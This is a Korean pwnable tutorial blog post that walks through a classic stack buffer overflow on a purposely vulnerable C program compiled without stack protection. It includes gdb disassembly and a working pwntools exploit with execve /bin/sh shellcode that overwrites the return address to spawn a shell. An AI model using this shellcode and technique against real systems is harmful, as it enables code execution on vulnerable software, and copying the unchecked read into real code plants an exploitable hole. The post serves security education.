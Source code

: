 ```yaml
---
layout: post
title: Buffer Overflow
subtitle: Stack Buffer Overflow
categories: Pwnable
tags: [Stack, Pwnable, buffer overflow]
---
```


### ✅ Buffer Overflow
Pwnable의 가장 기초적인 Stack Buffer Overflow부터 알아보자. <br>
Stack buffer overflow는 이름에서부터 알 수 있듯 스택 버퍼에 할당된 크기보다 더 많은 데이터를 써서, 원래 할당된 크기 외에 영역을 덮어씌우는 공격 기법이다.

<br><br>


바로 코드로 알아보자.
```c
#include <stdio.h>
#include <unistd.h>
 
void vuln(){
    char buf[50];
    printf("buf[50] address : %p\n",buf);
    read(0, buf, 100);
}
 
void main(){
    vuln();
}
```


```cmd
gcc -z execstack -fno-stack-protector -o stack stack.c
```
위의 명령어를 통해 컴파일해준다. <br>
**-z execstack**은 Stack영역에 실행권한을 주는 옵션이고 **-fno-stack-protector**는 Stack Canary를 없애주는 옵션이다.

<br>

이제 gdb를 실행해서 vuln 함수의 buf가 rbp로부터 얼마나 떨어져있는지 확인해보자.

```asm
pwndbg> disassemble vuln
Dump of assembler code for function vuln:
   0x0000000000001169 <+0>:     endbr64
   0x000000000000116d <+4>:     push   rbp
   0x000000000000116e <+5>:     mov    rbp,rsp
   0x0000000000001171 <+8>:     sub    rsp,0x40
   0x0000000000001175 <+12>:    lea    rax,[rbp-0x40]
   0x0000000000001179 <+16>:    mov    rsi,rax
   0x000000000000117c <+19>:    lea    rax,[rip+0xe81]        # 0x2004
   0x0000000000001183 <+26>:    mov    rdi,rax
   0x0000000000001186 <+29>:    mov    eax,0x0
   0x000000000000118b <+34>:    call   0x1060 <printf@plt>
   0x0000000000001190 <+39>:    lea    rax,[rbp-0x40]
   0x0000000000001194 <+43>:    mov    edx,0x64
   0x0000000000001199 <+48>:    mov    rsi,rax
   0x000000000000119c <+51>:    mov    edi,0x0
   0x00000000000011a1 <+56>:    call   0x1070 <read@plt>
   0x00000000000011a6 <+61>:    nop
   0x00000000000011a7 <+62>:    leave
   0x00000000000011a8 <+63>:    ret
End of assembler dump.
```

read함수를 보면 두 번째 인자인 rsi에 [rbp-0x40]의 주소를 넣고 있다.
즉, buf[50]은 [rbp0x40]에 할당된다.

따라서 0x40크기의 쉘 코드를 넣으면 rbp까지 덮어씌워지고 그 뒤로 8byte(RBP) + 입력값의 주소(RET)를 넣어주면 입력한 쉘 코드를 실행시킬 수 있다.

<br>

아! 그리고 입력값의 주소는 프로그램 실행 시 주소를 출력해주기 때문에 잘 받기만 하면 된다.

<br>

바로 Exploit Code를 작성하자.
```python
from pwn import *

context.log_level = 'debug'

p = process('./stack')
pause()

p.recvuntil(b'buf[50] address : ')
buf_addr = int(p.recvuntil(b'\n')[:-1],16)
print("[*] Recv buf[50] address: ", buf_addr)

shellcode = b'\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05' # 23 bytes
payload = shellcode
payload += b"A"*0x29
payload += b"B"*0x8 # rbp
payload += p64(buf_addr) # ret

p.sendline(payload)

p.interactive()
```

Exploit Code는 다음과 같다. <br>
buf[50]에 ShellCode를 올리고 buf[50]의 주소를 RET로 덮어씌우기 위해 0x40(64) - ShellCode(23) = 41 <br>
문자열 A로 41만큼 덮어씌우고 문자열 B로 RBP를 덮어씌운뒤 buf[50]의 주소로 RET를 덮어씌운다.

<br>

![Exploit Binary](/assets/images/source/250920_img/ex.png)

짠! 오랜만에 하니까 생각보다 오래걸렸다. <br>
다시 함수 호출 규약, 레지스터부터 차근차근 정리해봐야겠다.

<br>

끝✨

<br><br><br>

### ✅ 참고
<a href="https://www.lazenca.net/display/TEC/02.Return+to+Shellcode">Return To ShellCode</a>
